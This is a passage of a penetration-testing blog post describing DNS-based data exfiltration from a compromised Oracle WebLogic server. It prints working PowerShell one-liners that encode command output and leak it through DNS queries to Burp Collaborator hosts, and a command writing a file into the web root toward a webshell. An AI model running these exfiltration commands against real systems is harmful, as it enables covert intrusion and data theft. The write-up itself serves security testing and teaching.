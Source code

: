 Now time to try out the payload.

```powershell
powershell -exec -c "$(whoami) -split '(.{16})' | ? {$_} | % { Resolve-DnsName (([System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($_))).Replace('-','')+'.gk4q3p8o09d9mtahnexcz8wnmes8gx.burpcollaborator.net') -Type A; Start-Sleep -Seconds 1 }"
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.6.png){: .align-center}
image 1.6

And we get two hits with some hex data.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.7.png){: .align-center}
image 1.7

Decoding it with burp decode shows us the output. And surprisingly the application is running as  `nt authority\system` which is a dangerous thing to do.

## RCE to webshell

Using the output of our commands, we can understand the directory structure better to write a webshell.

```powershell
powershell -exec -c "$(dir) -split '(.{16})' | ? {$_} | % { Resolve-DnsName (([System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($_))).Replace('-','')+'.jtg84womt25t21z6s0t1t3xhx83zro.burpcollaborator.net') -Type A; Start-Sleep -Seconds 1 }"
```

Start with `dir` and look inside each directory. Each output will be split into multiple dns requests. We have to assemble them back together to get the output.

Finally I found that the actual path was `servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.bea-wls9-async-response_12.1.3\2ig01a\war\`

Our final payload will be

```powershell
powershell -exec bypass -c "echo 'file created as part of security testing' > servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.bea-wls9-async-response_12.1.3\2ig01a\war\sectest.txt"
```

And we can visit the page to view our payload.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.8.png){: .align-center}
image 1.8 

And we can see our text. Unfortunately I do not have permission to  upload a shell. So this will be it. 

## Notes

1. As I did more research, I found a better way to send the data without using multiple requests. Data can be appended as multiple subdomains. eg `data1.data2.data3.attacker.com`. I couldn't fully get this to work
2. There are also techniques available to send data through fields other that A records.
3. Using a custom domain and a nameserver, it is possible to automate the decoding by writing a script that will listen on port 53.
4. There are tool such as [DnsSteal](https://github.com/m57/dnsteal), [requestbin.net](http://requestbin.net/) that can make the process easier.

## Further Reading
1. https://blog.fosec.vn/dns-data-exfiltration-what-is-this-and-how-to-use-2f6c69998822
2. https://blogs.infoblox.com/community/dns-data-exfiltration-how-it-works/
3. https://pentest.blog/data-exfiltration-tunneling-attacks-against-corporate-network/